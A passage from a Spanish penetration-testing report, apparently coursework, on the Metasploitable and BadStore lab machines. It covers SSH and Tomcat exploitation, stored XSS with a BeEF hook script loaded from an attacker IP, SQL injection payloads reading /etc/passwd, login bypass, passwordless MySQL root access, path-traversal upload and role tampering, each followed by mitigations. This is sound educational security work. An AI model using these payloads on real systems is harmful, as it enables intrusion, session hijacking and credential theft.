Tras la ejecución del exploit, por el output de pantalla se visualiza una clave RSA que es vulnerable para la conexión a través de usuario root con el servicio SSH de la máquina objetivo. 

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/21.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Se utiliza el comando indicado como \textit{Execute} para establecer conexión sin autenticación por usuario root con la máquina Metasploitable. 

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/22.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Con esto se demuestra la explotación de la vulnerabilidad sobre la máquina Metasploitable.

\vspace{2em}

\begin{itemize}
	\item 	\textbf{Mitigación}

\vspace{1em}

\hspace{20pt}
La vulnerabilidad Debian OpenSSH/OpenSSL está relacionada con la generación de números aleatorios en uno de los paquetes de OpenSSL, el cual es utilizado por el servicio OpenSSH para conexiones remotas con el sistema. Afecta a sistemas Debian y distribuciones en base a esta con versiones antiguas y también a antiguas versiones de OpenSSH. El problema radica en la eliminación forzada de líneas de código de la biblioteca OpenSSL, a través de las cuales se permite aumentar la entropía del generador de números aleatorios en OpenSSL. Como resultado, el generador de números aleatorios produce secuencias predecibles en lugar de números verdaderamente aleatorios. Esta situación es la que se reconstruye con la ejecución del exploit, el cual genera y encuentra una cadena aleatoria que es funcional como clave RSA para un usuario especifico.

\vspace{1em}

\hspace{20pt}
La mitigación de esta vulnerabilidad radica en:

\vspace{1em}

\begin{itemize}
\item Actualizar tanto la versión del sistema operativo a las últimas de Debian o distribuciones, como también la versión de OpenSSL.
\item Tras cada actualización generar nuevamente las claves SSH, con la finalidad de garantizar que no se reutilicen claves antiguas que pudiesen estar comprometidas.
 \item  Configurar redes de conexión VPN para accesos desde fuera de la red, a través de las cuales se busca la privacidad y el anonimato sobre la conexión del servicio. Además configurar el firewall para restringir el acceso no autorizado a los servicios SSH que se encuentren en ejecución en nuestro sistema desde ubicaciones externas a nuestra red, excluyendo las conexiones por VPN mencionadas anteriormente.
\item Establecer un sistema de monitoreo de registros para detectar posibles actividades maliciosas o intentos de explotar la vulnerabilidad. Generar alertas sobre posibles intentos de autenticación y de acceso no autorizados.
\end{itemize}
\end{itemize}

\vspace{2em}

\item \textbf{CVE-2010-4094: Apache Tomcat SEoL 5.5}

\vspace{1em}

\hspace{20pt}
La siguiente vulnerabilidad se explota a través de Metasploit. Para esto se busca un exploit por al cadena \textit{search tomcat login}, con la finalidad de atacar el login de sesión del servicio tomcat que corre en la máquina objetivo:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/23.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Se selecciona la opción disponible llamada \textit{auxiliary/scanner/http/tomcat\_mgr\_login}. Se le asignan los parámetros respectivos, como IP y puerto objetivo, número de hilos para aumentar la velocidad de la ejecución, y que termine el proceso al encontrar las credenciales correctas del servicio de login.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/24.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Luego de ejecutar el exploit, se obtiene en texto claro las credenciales de conexión al servidor tomcat de Metasploitable.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/25.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Teniendo esta información, se utiliza el exploit  \textit{exploit(multi/http/tomcat\_mgr\_upload)} para forzar la conexión al servidor con las credenciales obtenidas anteriormente. Se le asignan los parámetros solicitados dentro de los cuales están el usuario \textit{tomcat} y la contraseña \textit{tomcat}.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/26.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Se aplica la explotación sobre el sistema, obteniendo acceso a este mediante una sesión de meterpreter.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/27.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Con la sesión establecida a través de meterpreter se demuestra la explotación de la vulnerabilidad.

\vspace{2em}

\begin{itemize}
	\item 	\textbf{Mitigación}

\vspace{1em}

\hspace{20pt}
La actual vulnerabilidad se presenta debido a  que el servidor Tomcat 5.5 mantiene contraseñas predeterminadas para ciertas cuentas de acceso predefinidas, como el usuario \textit{tomcat}. Esto permite a los atacantes realizar ataques de fuerza bruta sobre el servicio con la finalidad de obtener así las credenciales.

\vspace{1em}

\hspace{20pt}
La mitigación de esta vulnerabilidad radica en:

\vspace{1em}

\begin{itemize}
\item Actualizar la versión de Tomcat  a la última disponible, con la finalidad de eliminar la posibilidad que esta esté en el scope de versiones vulnerables.
\item Realiza el cambio de las credenciales por defecto que posee el servicio a unas de mayor seguridad para así disminuir los aciertos ante ataques de fuerza bruta.
\item Realizar la configuración detallada y exaustiva sobre el servicio Tomcat, ajustando configuraciones de seguridad para limitar el acceso solo a usuarios permitidos. 
\item Mantener deshabilitada cualquier función irrelevante en el funcionamiento del servicio, mientras este no afecte su correcto y normal desempeño.
 \item  Configurar redes de conexión VPN para accesos desde fuera de la red al servidor.
\item Establece un sistema de monitoreo que permita detectar actividad sospechosa o intentos de fuerza bruta. Esto permite responder de una mnera mas rápida y efectiva ante posibles amenazas o ataques sobre el servicio, para así evitar la intrusión.
\end{itemize}
\end{itemize}

\end{enumerate}

\newpage





%%%%%%%%%%%%%%%
%%%%% CASO 2 %%%%%
%%%%%%%%%%%%%%%
\phantomsection
\newsection{2.	Caso 2: Sistema BadStore}

\vspace{2em}

\vspace{1em}

\hspace{20pt}
Se toma como segundo objetivo la máquina virtual BadStore, a la cual se le realiza la explotación de algunas vulnerabilidades web detectadas en su servicio http.

\vspace{2em}

\newsubsection{a.	Recopilación de información}

\vspace{1em}

\hspace{20pt}
Comenzando con la enumeración, se realiza un ping sobre la máquina objetivo mediante el envío de un paquete ICMP. Gracias a esto se ve que el paquete a sido recibido por lo que el sistema objetivo se encuentra alcanzable dentro de nuestra red.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/101.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Ahora, se realiza un escaneo general utilizando nmap sobre esta dirección IP (192.168.1.108).

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/102.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Con la funcion \textit{extractPorts} se extraen los puertos abiertos desde el fichero en formato grepeable asignado como output a la ejecución de nmap sobre la IP objetivo.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/103.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Con esto se conoce que los puertos abiertos de la dirección IP \textit{192.168.1.108} son los 80, 443 y 3306. Ahora, se realiza el correspondiente escaneo con nmap enfocado hacia los puertos encontrados anteriormente:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/104.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Los servicios detectados en cada uno de los puertos abiertos se detallan en la siguiente tabla:

\vspace{1em}

\begin{table}[H]
    \centering
    \begin{tabular}{|c|c|c|c|}
         \hline
         \textbf{ Port } & \textbf{ State } & \textbf{ Service } & \textbf{ Versión } \\
         \hline
         80/tcp & Open  & http & Apache httpd 1.3.28 ((Unix) mod\_ssl/2.8.15 OpenSSL/0.9.7c) \\
         \hline
         443/tcp & Open  & ssl/https & Apache/1.3.28 (Unix) mod\_ssl/2.8.15 OpenSSL/0.9.7c \\
         \hline
         3306/tcp & Open  & mysql & MySQL 4.1.7-standard \\         
         \hline
    \end{tabular}
\end{table}

\vspace{1em}

\hspace{20pt}
Se realiza escaneo con whatweb sobre el servidor web de la IP \textit{192.168.1.108}. Se obtiene que el servidor HTTPServer corre a través de un servicio Apache/1.3.28 (Unix) mod\_ssl/2.8.15 OpenSSL/0.9.7c.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/105.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Ya que los puertos abiertos están asociados a servicios webs y bases de datos, se realiza fuzzing sobre url \textit{http://192.168.1.108} con wfuzz, enfocando el análisis sobre la url \textit{http://192.168.1.108/cgi-bin/badstore.cgi?action=FUZZ}. El resultado obtenido se almacena en un fichero llamado \textit{wfuzz.txt}. De este resultado se obtiene cierta información, como la presencia de un argumento del path en la url llamado \textit{admin}, el cual se utilizará mas adelante.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/106.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Por otro lado, se visita en el sitio web el fichero \textit{robots.txt}, del cual se obtiene cierta información extra:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/212.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Posterior a esto, se procede a realizar el análisis de vulnerabilidades sobre la máquina objetivo hacia los puertos descubiertos. 


\newpage

\newsubsection{b.	Análisis de vulnerabilidades}

\vspace{1em}

\hspace{20pt}
Como la explotación de esta máquina objetivo será ante vulnerabilidades que se presenten en su servidor y página web, para realizar el análisis se utiliza \textit{Nessus} en su modalidad de \textit{Web Application Test}. El resultado es el siguiente:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/107.png}
\end{center}

\vspace{1em}

\hspace{20pt}
De esto se obtienen vulnerabilidades de riesgo bajo,

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/208.png}
\end{center}

\vspace{1em}

\hspace{20pt}
vulnerabilidades de riesgo medio,

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/209.png}
\end{center}

\vspace{1em}

\hspace{20pt}
vulnerabilidades de riesgo alto,

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/210.png}
\end{center}

\vspace{1em}

\hspace{20pt}
y vulnerabilidades de riesgo crítico.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/211.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Tomando en cuenta la cantidad de vulnerabilidades asociadas al servidor o sitio web de la máquina objetivo, y que la explotación se realizará desde un punto de vista web y no de sistema, se procede a realizar la explotación de estas.

\newpage

%%%%% c. Explotación %%%%%
\newsubsection{c.	Explotación}

\vspace{1em}

\hspace{20pt}
Se visita página web \textit{http://192.168.1.108}.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/108.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Para efectos prácticos, se crea un usuario con las siguientes credenciales (password: raul). Tras realizar el login con esta cuenta se aprecia que se ingresa con dicho usuario:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/109.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Tras realizar la visualización y las pruebas correspondientes sobre el sitio posterior al análisis de este, se comienzan a documentar las vulnerabilidades webs detectadas:

\vspace{1em}

\begin{enumerate}

%%%%% XSS %%%%%
\item 	\textbf{\textit{CWE-79: Cross Site Scripting stored (XSS persistence)}}

\vspace{1em}

\hspace{20pt}
En la url \textit{http://192.168.1.108/cgi-bin/badstore.cgi?action=myaccount} se descubre un \textit{HTML Injection} desde el input typetext \textit{Email Address}:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/111.png}
\end{center}

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/112.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Como el servidor a interpretado el código html enviado y lo a ejecutado en pantalla, nos da un indicio de que posiblemente este sitio sea vulenrable también a \textit{XSS}. Para probar esto, se ingresa la sentencia (\textit{<script>alert(``Hi'')</script>}) sobre el input typetext \textit{Email Address}

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/113.png}
\end{center}

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/114.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Debido a que la respuesta es inmediata ante la sentencia (\textit{<script>alert(``Hi'')</script>}), no es necesario aplicar una evasión al filtrado de caracteres ante una mayor seguridad, tal como puede ser la modificación de las mayúsculas y minúsculas de la expresión anterior (\textit{<sCRipt>alert("Hola")</ScriPt>}), ya que esta será efectiva de igual forma.

\vspace{1em}

\hspace{20pt}
Para explotar la vulnerabilidad se utiliza BeeF, con la finalidad de plantear un \textit{XSS stored} sobre el sitio, el cual sea ejecutado por un tercer usuario al momento de ingresar a la URL infectada. De esta forma obtendremos acceso cierta información de la víctima. Para llevar a cabo esto nos ayudamos de un tercer dispositivo, nuestro equipo host con Windows 11. Así, en nuestra nuestra máquina de atacante ejecutaremos beef y plasmaremos por primera vez el XSS stored sobre la máquina \textit{BadStore}, para que al visitar dicho web site desde la máquina Windows, obtengamos acceso a este dispositivo a través de beef.

\vspace{1em}

\hspace{20pt}
Se ejecuta la siguiente sentencia Javascript sobre el input typetext \textit{Email Address} de la url \textit{http://192.168.1.108/cgi-bin/badstore.cgi?action=myaccount} desde nuestro dispositivo atacante, a la cual como argumento se le asigna nuestra dirección IP:

\vspace{1em}

\begin{center}
	<script src="http://192.168.1.125:3000/hook.js"></script>
\end{center}

\vspace{1em}

\hspace{20pt}
Tras realizar esto, en la interfaz de beef aparecerá nuestra máquina atacante conectada ONLINE. Esto en primera instancia nos confirma el funcionamiento de la explotación de un \textit{XSS reflected}.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/115.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Para convertir este \textit{XSS reflected} en un \textit{XSS stored}, se ejecuta la misma sentencia Javascript sobre el input typetext \textit{Comments:} de la url \textit{http://192.168.1.108/cgi-bin/badstore.cgi?action=guestbook}, debido a que esto se guardará como una nota en el servidor y quedará almacenado de forma permanente.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/116.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Luego de ejecutar la sentencia en nuestra máquina atacante, nos dirigimos a un navegador de nuestro dispositivo host con Windows y cargamos la url \textit{http://192.168.1.108/cgi-bin/badstore.cgi?action=guestbook}. Tras ejecutar la url se verá algo como lo siguiente:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/117.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Pero desde beef se obtendrá acceso al dispositivo Windows que acaba de ser hookeado por un \textit{XSS stored}:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/118.png}
\end{center}

\vspace{1em}

\hspace{20pt}
En este punto se pueden hacer innumerables cosas desde beef mientras el dispositivo este encendido, tales como obtención de cookies de sesión del sitio que la víctima esta visitando, visualización en tiempo real de la pantalla del ordenador, geolocalización, ejecución de exploit para obtención de máximos privilegios, entre otras. En la siguiente imagen se plantean algunas de las opciones a realizar desde beef sobre una víctima controlada:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/119.png}
\end{center}

\vspace{2em}

\begin{itemize}
	\item 	\textbf{Mitigación}

\vspace{1em}

\hspace{20pt}
La vulnerabilidad Cross-Site Scripting (XSS) es un tipo de inyección, en el que se inyectan scripts maliciosos en sitios web. Los ataques XSS ocurren cuando un atacante usa una aplicación web para enviar código malicioso, generalmente en forma de un script del lado del cliente, a un usuario final diferente. Las fallas que permiten que estos ataques tengan éxito están bastante extendidas y ocurren en cualquier lugar donde una aplicación web use la entrada de un usuario dentro de la salida que genera sin validarla o codificarla.

\vspace{1em}

\hspace{20pt}
La prevención de XSS requiere la separación de los datos que no son de confianza del contenido activo del navegador. Esto se puede lograr mediante:

\vspace{1em}

\begin{itemize}
\item El uso de marcos que escapan automáticamente de XSS por diseño, como el último Ruby on Rails, React JS.
\item Escapar los datos de solicitud HTTP que no son de confianza según el con texto en la salida HTML (cuerpo, atributo, JavaScript, CSS o URL) resolverá las
 vulnerabilidades de XSS reflejadas y almacenadas.
 \item  La aplicación de codificación es sensible al contexto tras modificar el documento del navegador en el lado del cliente. Cuando esto no se puede evitar, se pueden aplicar técnicas de escape sensibles al contexto similares a las API del navegador.
\item Habilitar una política de seguridad de contenido (CSP) como un control de mitigación de defensa en profundidad contra XSS. Es efectivo si no existen otras vulnerabilidades que permitirían colocar código malicioso a través de archivos locales incluidos (por ejemplo, sobrescrituras de recorrido de ruta o bibliotecas vulnerables de redes de entrega de contenido permitidas).
\end{itemize}
\end{itemize}

\vspace{2em}

%%%%% SQLi %%%%%
\item 	\textbf{\textit{CWE-89: SQL Injection}}

\vspace{1em}

\hspace{20pt}
Ingresando al sitio web se aprecia que el servidor nos conecta como un \textit{Unregistered User}:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/120.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Para comenzar, se realiza una consulta sobre el campo de búsqueda de productos ingresando una comilla simple para probar el comportamiento del sitio ante la ruptura de un posible SQL Injection. Al ejecutar la consulta, se visualiza la respuesta del servidor con un error en pantalla sobre el comportamiento de la sentencia enviada anteriormente. Además, se aprecia la referencia a la ruta del sistema objetivo en donde se encuentra alojado el sitio web, en \textit{/usr/local/apache/cgi-bin}:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/144.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Esta respuesta nos da el indicio de que la página es vulnerable a SQL Injection. Para continuar, se ingresa en el campo de búsqueda la palabra \textit{keepcoding}, haciendo referencia a la búsqueda de un producto en la base de datos:
\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/121.png}
\end{center}

\vspace{1em}

\hspace{20pt}
El sitio nos responde con una consulta SQL en pantalla, comentando que buscó filas en la tabla \textit{itemdb} donde la cadena 'keepcoding' estuviese presente en alguna de sus columnas (itemnum, sdesc, o ldesc) pero sin tener éxito. Se modifica esta consulta con la finalidad de apuntar a las casillas por donde la tabla entrega información sobre los productos a través del parámetro \textit{searchquery}, con la sentencia SQL ''\textit{1'='0' UNION SELECT 1,1,1,1 FROM userdb ' \&action=search\&x=0\&y=0}''. Al ejecutar lo anterior se obtiene:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/142.png}
\end{center}

\vspace{1em}

\vspace{1em}

\hspace{20pt}
Luego, modificando uno de los referenciales de posición dentro de la sentencia SQL, se le solicita a través de esta la carga de archivos propios del sistema mediante la función \textit{LOAD\_FILE}, con la sentencia ''\textit{1'='0' UNION SELECT 1,1,1,LOAD\_FLE('/etc/passwd') FROM userdb ' \&action=search\&x=0\&y=0}''. El resultado de esto es la concatenación del contenido del fichero passwd sobre la cuarta casilla de posición de la tabla:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/143.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Realizado mas pruebas, se apunta a diversos ficheros internos en el sistema para ver si se puede concatenar dicho contenido en pantalla. De estas pruebas se obtiene el contenido de los ficheros hosts, fstab, group, entre otros.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/145.png}
\end{center}

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/146.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Continuando con las pruebas, desde el apartado de \textit{Login} se prueba la sentencia SQL \textit{admin' or '1' = '1}, con la finalidad de ver si existe la posibilidad de realizar conexión como un usuario registrado, pero sin la necesidad de autenticar la conexión.
\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/122.png}
\end{center}

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/123.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Tras la ejecución se aprecia la conexión como usuario \textit{Master System Administrator} al sitio. 

\vspace{1em}

\hspace{20pt}
Del fuzzing realizado anteriormente se obtuvo el fichero wfuzz.txt. Tras aplicar un grep hacia lineas que contengan la cadena de texto \textit{admin} se obtiene lo siguiente:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/124.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Del primer resultado se ve que existe para la url \textit{http://192.168.1.108/cgi-bin/badstore.cgi?action=} un path de nombre admin. Al navegar a él se descubre un menú secreto de admininstrador.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/125.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Al revisar el apartado \textit{Show Current User} se obtiene las direcciones de correo, contraseñas y nombres de los usuarios autenticados en el sitio, incluido el usuario Raul que se creo al comienzo de este módulo.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/126.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Se crea un fichero de nombre pass.txt con las contraseñas hasheadas y los nombres de usuario, con la finalidad de realizar un cracking de hashes sobre este utilizando la herramienta John The Ripper.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/127.png}
\end{center}

\vspace{1em}

\hspace{20pt}
De dicha ejecución se obtienen en primera instancia las siguientes contraseñas en claro:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/128.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Con la obtención de información desde la base de datos y desde el propio sistema que gestiona el sitio se verifica la explotación por	 SQL Injection.

\vspace{2em}

\begin{itemize}
	\item 	\textbf{Mitigación}

\vspace{1em}

\hspace{20pt}
Una SQLi se produce cuando los desarrolladores de software crean consultas dinámicas de bases de datos en base a la concatenación de cadenas que incluyen la entrada proporcionada por el usuario. Por lo tanto, evitar una falla por SQLi en primera instancia se gestiona por:

\vspace{1em}

\begin{itemize}
\item Dejar de escribir consultas dinámicas con concatenación de cadenas.
\item Evitar que la entrada proporcionada por el usuario que contiene SQL malicioso afecte la lógica de la consulta ejecutada desde el servidor hacia la base de datos.
\end{itemize}

\vspace{1em}

\hspace{20pt}
Debido a esto es que para prevenir la inyección de código SQL sobre el input de una página web, se requiere mantener sanitizada la entrada de datos y consultas que se ejecutan sobre el servidor.

\vspace{1em}

\hspace{20pt}
Los ataques por inyecciones SQL son muy comunes, y esto se debe principalmente a dos factores: el primero es la prevalencia significativa de esta vulnerabilidad (es muy difícil sanitizar al 100\% el código, por lo que existe una una alta probabilidad de existencia sober un sitio web), y el segundo es el atractivo del objetivo ante el acceso a una base de datos, ya que suele generar un interés superior por contener todos los datos sensibles y críticos del sistema.

\vspace{1em}

\hspace{20pt}
Por ende, como recomendaciones generales para evitar SQL Injection en un sitio se plantea: 

\vspace{1em}

\begin{itemize}
	\item Hacer uso del privilegio mínimo al momento del desarrollo de un servicio.
	\item Validación de caracteres de entrada de la lista de permitidos con una buena sanitización ante la evasión de filtros.
	\item  Utilice LIMIT y otros controles de SQL dentro de las consultas para evitar la divulgación masiva de registros en caso de inyección de SQL.
	\item Para cualquier consulta dinámica residual, escape los caracteres especiales usando la sintaxis de escape específica para ese intérprete.
	\item Sanitizar filtrado de cadenas y caracteres a nivel de servidor, no a nivel del cliente.
	\item Utilizar declaraciones parametrizadas específicas para las consultas y separar el código general del código SQL en las consultas sobre el servidor.
\end{itemize}
\end{itemize}

\vspace{2em}

%%%%% MySQL root connection %%%%%
\item 	\textbf{CVE-2002-1809 - MySQL root connection without authentication}

\vspace{1em}

\hspace{20pt}
Se descubre vulnerabilidad CVE-2002-1809 pero para la versión 4.1.7 de MySQL, en donde realizando una simple conexión directa a través de mysql-client por consola hacia la dirección IP de la máquina BadStore, y autenticandonos como usuario root, se puede acceder a la base de datos sin la necesidad de ingresar una contraseña de validación:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/129.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Gracias a esta interacción directa con la base de datos, se puede acceder a los datos de esta, listando bases internas, tablas y columnas para obtener credenciales de conexión de usuarios pertenecientes al servicio, así como también datos e información extra de estos:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/130.png}
\end{center}

\vspace{2em}

\begin{itemize}
	\item 	\textbf{Mitigación}

\vspace{1em}

\hspace{20pt}
Para anular la posibilidad de conexión directa a través de usuario root o de otros usuarios a la base de datos sin la validación de una contraseña implica:

\begin{itemize}
\item Realizar control sobre las cuentas que pueden tener acceso de forma remota a través de mysql-client a la base de datos.
\item Asignar contraseñas a los usuarios permitidos pero evitar conexiones remotas de forma directa.
\item Filtrar conexiones a la base de datos desde el firewall, aplicando di versos filtrs para que solo dispositivos pertenecientes a una lista de permitidos puedan intercatuar con la base de datos de forma remota y no otros.
\end{itemize}
\end{itemize}

\vspace{2em}

%%%%% File Upload %%%%%
\item 	\textbf{\textit{CWE: Unrestricted File Upload}}

\vspace{1em}

\hspace{20pt}
A través de la url \textit{http://192.168.1.108/cgi-bin/badstore.cgi?action=supplierlogin} se realiza un forzado del login como admin gracias a la SQLi descubierta anteriormente.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/131.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Al ingresar se presenta la siguiente interfaz, desde la cual se pueden subir archivos al servidor asignándoles un nombre específico.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/132.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Se crea un fichero llamado index.html, el cual contiene una sintáxis básica html para imprimir un título en pantalla.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/133.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Tras un análisis sobre el sitio web se descubre que las images del sitio son cargadas desde el directorio \textit{htdocs/images}, el cual está 2 directorios por detrás del raíz del sitio. Sabiendo esto, se realiza la carga del fichero index.html en el servidor, asignando a este como nombre el directory path traversal \textit{/../../htdocs/images/index.html}.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/134.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Al realizar la carga del fichero, se obtiene el siguiente mensaje en pantalla:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/135.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Luego se llama al fichero index.html desde la url \textit{http://192.168.1.108/images/index.html}. El resultado es el siguiente:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/136.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Con esto se confirma la presencia de la vulnerabilidad \textit{File Upload}, ya que el fichero que se a subido se está ejecutando al ser llamado desde el navegador, y en principio esta carga de archivos solo debiese aceptar ciertos formatos compatibles con el fin y uso de la página, como ficheros con extensiones word, excel, imagenes, pero no código extensiones html o php que pueden ser llamadas e interpretadas desde el navegador.

\vspace{2em}

\begin{itemize}
	\item 	\textbf{Mitigación}

\vspace{1em}

\hspace{20pt}
Con la finalidad de aumentar la seguridad sobre un sitio que permite la carga de archivos y disminuir posibles ataques por esto, como carga y ejecución de shell reversas desde el servidor a un dispositivo atacante para ganar control del sistema, entre otras, se recomienda en primera instancia:

\vspace{1em}

\begin{itemize}
\item Validar el tipo de archivos y permitir la incorporación al servidor de archivos específicos. Verifica la extensión del archivo y también validar el tipo MIME del archivo para evitar archivos maliciosos.
\item Cambiar el nombre de los archivos cargados al servidor por uno único y aleatorio.
\item Limitar el tamaño máximo permitido para cargar archivos para evitar ataques de denegación de servicio mediante la subida de archivos enormes y en grandes cantidades.
\item Almacenar los archivos cargados en un sistema de almacenamiento separado al servidor, con acceso individualizado, para así evitar intrusiones directas sobre el servidor pivoting horizontal de manera mas sencilla.
\item Solo permitir que usuarios autenticados y validados tengan acceso a la carga de archivos en el servidor. Limitar los privilegios de carga a usuarios confiables.
\item Implementar un sistema de registro para realizar constantemente un seguimiento sobre las actividades realizadas de la carga de archivos en el servidor, para indentificar usuarios y contenido del archivo cargado y responder de una mejor forma ante un posible incidente generado a raíz de una carga maliciosa.
\item Mantén actualizaciones y parches de software invlucrados a sus últimas versiones.
\end{itemize}
\end{itemize}

\newpage

%%%%% Manipulación de parámetros %%%%%
\item 	\textbf{\textit{CWE-284: Broken Access Control}}

\vspace{1em}

\hspace{20pt}
Se descubre Broken Access Control debido a la posibildiad de manipular ciertos parámetros en una petición enviada al servidor, la cual de como resultado la modificación del rol asignado a nuevos usuarios. Al momento de crear un nuevo usuario en la plataforma, se puede modificar la petición enviada para cambiar el rol asignado a este por un rol de administrador:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/137.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Con BurpSuite se intercepta la petición de registro del nuevo usuario \textit{juanito}, modificando el parámetro asignado a su rol único dentro del servidor. Así, juanito pasa de ser un usuario convensional a ser administrador del sistema:

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/138.png}
\end{center}

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/139.png}
\end{center}

\vspace{1em}

\hspace{20pt}
Se realiza login con el nuevo usuario Juanito. Se navega a la url con el menú oculto de administración \textit{http://192.168.1.108/cgi-bin/badstore.cgi?action=admin}, y desde el apartado \textit{Show Current Users} se corrobora la creación del usuario Juanito como administrador.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/140.png}
\end{center}

\vspace{1em}

\hspace{20pt}
 Por otro lado, cabe destacar que el tan solo poder ingresar a este menú secreto de administración confirma que juanito es administrador, ya que un usuario con rol \textit{user (U)} no lo puede hacer. Para probar esto, se accede con las credencial del usuario \textit{big} (mail:big@spender.com / password:money), las cuales fueron obtenidas a través del SQLi anterior.  Al visualizar el menú, se indica que como el usuario Big Spender no es administrador no se puede acceder al recurso.

\vspace{1em}

\begin{center}
    \includegraphics[width=12cm]{img/141.png}
\end{center}

\vspace{2em}

\begin{itemize}
	\item 	\textbf{Mitigación}

\vspace{1em}

\hspace{20pt}
El control de acceso aplica una política tal que los usuarios no pueden actuar fuera de los permisos previstos. Las fallas generalmente conducen a la divulgación no autorizada de información, modificación o destrucción de todos o ciertos datos o a la realización de una función comercial fuera de los límites del usuario. Las vulnerabilidades comunes del control de acceso incluyen:

\vspace{1em}

\begin{itemize}
\item Violación del principio de privilegio mínimo o denegación por defecto, donde el acceso solo debe otorgarse para capacidades, roles o usuarios particulares, pero está disponible para cualquiera.
\item Permitir ver o editar la cuenta de otra persona, proporcionando su identificador único (referencias de objetos directos inseguros)
\item Elevación de privilegios. Actuar como usuario sin iniciar sesión o actuar como administrador cuando inicia sesión como usuario.
\item Manipulación de metadatos, como reproducir o alterar un token de control de acceso JSON Web Token (JWT), o una cookie o un campo oculto manipulado para elevar privilegios o abusar de la invalidación de JWT.
\end{itemize}

\vspace{1em}

\hspace{20pt}
